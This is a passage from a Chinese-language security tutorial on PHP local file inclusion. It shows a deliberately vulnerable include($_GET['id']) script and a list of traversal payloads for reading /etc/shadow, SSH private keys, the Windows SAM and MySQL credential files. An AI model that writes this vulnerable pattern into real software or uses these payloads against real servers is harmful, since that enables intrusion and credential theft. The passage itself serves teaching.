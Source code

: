 **5\. 实例**  

假如目标网站有 news.php 文件，文件内容为：

```
<?php
$test=$\_GET\['id'\];   
include($test);
?>
```

此时该文件存在文件包含漏洞。include 函数通过动态变量的方式引入需要包含的文件，若用户能控制该变量；在同级目录下上传 test.txt 文件, 内容为：

```
<?php phpinfo()?>
```

*   此时访问测试：http://192.168.1.3/fileinclude/news.php?id=test.txt。将 test.txt 文件传送给 id 参数并复制给 test 变量，然后 txt 文件被当作 php 脚本脚本文件执行。
    
*   同时也可以任意包含，根据物理路径读取服务器敏感文件：
    

```
# 常见敏感文件l
http://192.168.1.3/fileinclude/news.php?id=c:\\\\1.txt
www.test.com/test.php?test=../../../../../etc/passwod
www.test.com/test.php?test=/etc/shadow
www.test.com/test.php?test=/etc/php5/apache2/php.ini
www.test.com/test.php?test=/etc/mysql/my.cnf
www.test.com/test.php?test=/etc/apache2/apache2.conf
------------------------------------------------------------------------------
windows敏感文件：
c:\\\\boot.ini
# 查看系统版本
c:\\\\windows\\\\system32\\\\inetsrv\\\\metabase.xml
# 查看iis配置文件
c:\\\\windows\\\\repair\\\\sam
# 存储系统初次安装的密码
c:\\\\program files\\\\mysql\\\\my.ini
# mysql配置文件
c:\\\\program files\\\\mysql\\\\data\\\\mysql\\\\user.myd
# mysql root密码
c:\\\\windows\\\\php.ini
# php配置信息
c:\\\\windows\\\\my.ini
# mysql配置信息
-------------------------------------------------------------------------------
/root/.ssh/authorized\_keys
/root/.ssh/id\_rsa
/root/.ssh/id\_ras.keystore
/root/.ssh/known\_hosts
/etc/passwd
/etc/shadow
/etc/my.cnf
/etc/httpd/conf/httpd.conf
/root/.bash\_history
/root/.mysql\_history
/proc/self/fd/fd\[0-9\]\*(文件标识符)
/proc/mounts
/porc/config.gz
```
